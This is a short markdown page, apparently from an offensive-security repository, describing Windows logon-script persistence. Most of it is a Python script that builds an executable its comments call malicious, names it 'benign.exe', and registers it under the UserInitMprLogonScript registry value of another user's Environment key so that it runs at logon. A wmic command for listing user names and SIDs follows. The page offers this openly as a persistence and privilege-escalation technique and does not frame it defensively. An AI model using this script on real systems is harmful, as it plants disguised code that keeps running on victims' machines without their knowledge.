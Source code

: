 # **Logon scripts**

### Can be used for privilege escalation and mentanig presectance

```python
import os, shutil, winreg

filedir = os.path.join(os.getcwd(),"Temp")
filename = "benign.exe"
filepath = os.path.join(filedir,filename)

if os.path.isfile(filepath):
    os.remove(filepath)

# Use BuildExe to create malicious executable
os.system("python BuildExe.py")

# Move malicious executable to desired directory
shutil.move(filename,filedir)

# Windows logon script keys
#reghive = winreg.HKEY_CURRENT_USER
#regpath = "Environment"

reghive = winreg.HKEY_USERS
regpath = "S-1-5-21-524849353-310586374-791561826-1002\Environment"

# Add registry logon script
reg = winreg.ConnectRegistry(None,reghive)
key = winreg.OpenKey(reg,regpath,0,access=winreg.KEY_WRITE)
winreg.SetValueEx(key,"UserInitMprLogonScript",0,winreg.REG_SZ,filepath)
```

### To get the users of windows system [names & sids]

```
wmic useraccount get name,sid
```
